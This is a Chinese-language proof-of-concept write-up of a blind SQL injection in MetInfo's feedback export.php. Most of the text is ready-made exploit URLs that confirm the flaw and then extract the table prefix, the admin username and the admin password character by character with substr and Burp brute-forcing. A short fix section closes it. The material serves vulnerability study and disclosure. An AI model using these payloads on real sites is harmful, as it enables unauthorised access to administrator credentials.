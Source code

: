 ### 漏洞證明

驗證漏洞的存在：
### 1. 其中met_為我實驗環境metinfo的前綴（若要復線請根據實際情況修改）， admin_id=0x61646d696e 為字符串'admin'(過濾了單引號)

<pre>
http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table where admin_id=0x61646d696e -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
</pre>

然後測試一組錯誤的,把'admin'改成'admil'試試
<pre>
http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table where admin_id=0x61646d696c -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
</pre>

對比圖如下

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.7/3.7-1.png)
![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.7/3.7-2.png)


可以看到兩個文件的大小是不一樣的，看看這個excel裡到底有啥區別

![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.7/3.7-3.png)


### Step1：暴力破解metinfo前綴
用brup進行破解，根據返回大小

<pre>
http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
</pre>

### Step2： 破解admin帳戶
還是使用brup，用substr 一個個來

<pre>
http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table where substr(admin_id,1,1)=0x61 -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
</pre>

### Step3：破解admin密碼

同上

<pre>
http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table where admin_id=0x61646d696e and substr(admin_pass,1,1)=0x32 -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
</pre>

### 修復方案

1. include check_login
2. export.php的那個危險的$$注意下


